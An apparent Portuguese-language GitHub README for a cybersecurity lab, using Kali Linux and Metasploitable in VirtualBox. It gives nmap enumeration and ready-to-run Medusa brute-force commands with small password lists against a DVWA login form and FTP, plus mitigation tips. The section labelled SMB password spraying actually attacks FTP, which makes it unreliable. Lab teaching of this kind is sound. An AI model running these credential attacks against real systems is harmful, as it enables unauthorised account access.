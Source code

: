 # 💻 Simulação de Ataques em Ambiente Virtual

Este projeto demonstra a configuração de um ambiente virtual para simulação de ataques cibernéticos utilizando ferramentas como Kali Linux, Metasploitable e Medusa. O objetivo é estudar técnicas de força bruta e password spraying em serviços vulneráveis.

## 🧰 Ambiente Utilizado

- **VirtualBox** para virtualização
- **Kali Linux** como máquina atacante
- **Metasploitable** como máquina vulnerável

## 🎯 Objetivos

- Simular ataques de força bruta em FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Realizar password spraying em SMB com enumeração de usuários
- 
---

## 🛠️ Preparação Inicial

Antes de iniciar os testes, é importante garantir que o ambiente virtual esteja corretamente configurado e conectado.

### 🔄 Criar Snapshot de Segurança

Antes de qualquer alteração, crie um **snapshot** no Metasploitable para garantir um ponto de restauração em caso de falhas ou erros durante os testes.

1. Acesse o sistema e clique no campo "Máquina" e em seguida "Criar snapshot".
2. O ideal é escrever tudo com letras minúsculas, sem espeço e não utilizar acentos ou caracteres especiais.

```text
configuracaoinicial
```

### 🔐 Acesso ao Metasploitable

1. Inicie a máquina **Metasploitable**.
2. Faça login com as seguintes credenciais:

```text
Usuário: msfadmin  
Senha: msfadmin
```
3. Descubra o ip da máquina

```bash
ip a
```

### 📡 Verificar Conectividade com Kali Linux

Com o ip do Metasploitable faça o teste para verificar a conectividade, no terminal da máquina **Kali Linux**, execute o seguinte comando:

```bash
ping -c 3 \\inserir o ip encontrado anteriormente
```

Se o retorno for positivo, o ambiente está pronto para iniciar os testes.

---
## 🔐 Etapa 1: Ataque de Força Bruta em Formulário Web (DVWA)

### 📋 Descrição

Ataque de força bruta para descobrir credenciais de login em um formulário web vulnerável.

### 🧪 Procedimento

1. Acesse o modo desenvolvedor do navegador (`F12`) e vá até a aba **Network** para identificar os parâmetros enviados pelo formulário.
2. Crie listas de usuários e senhas através dos comandos abaixo:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

3. Execute o ataque com o Medusa utilizando o seguinte comando:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

4. O Medusa exibirá os testes realizados e indicará o usuário válido através da seguinte mensagem `SUCCESS`.

### 🛡️ Mitigação

- Utilização de bibliotecas de autenticação robustas
- Implementação de CAPTCHA
- Autenticação multifator (2FA)

---

## 🧨 Etapa 2: Password Spraying em SMB com Enumeração de Usuários

### 📋 Descrição

O ataque de password spraying em serviços SMB após enumeração de usuários e portas abertas.

### 🧪 Procedimento

1. Enumere os serviços disponíveis:

```bash
nmap -sV -p 21,80,445,139 192.168.56.101
```

2. Verifique se o serviço FTP está ativo:

```bash
ftp 192.168.56.101
```

3. Crie listas de usuários e senhas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

4. Execute o ataque com o Medusa:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

5. O Medusa indicará sucesso com a mensagem `SUCCESS`.

6. Valide o acesso via FTP com as credenciais obtidas:

```bash
ftp 192.168.56.101
```

### 🛡️ Mitigação

- Políticas de senha fortes (letras, números e caracteres especiais)
- Troca periódica de senhas
- Restrição de tentativas de login

---

## 📎 Observações

Este projeto é apenas para fins educacionais criado a partir dos estudos em cybersecurity.
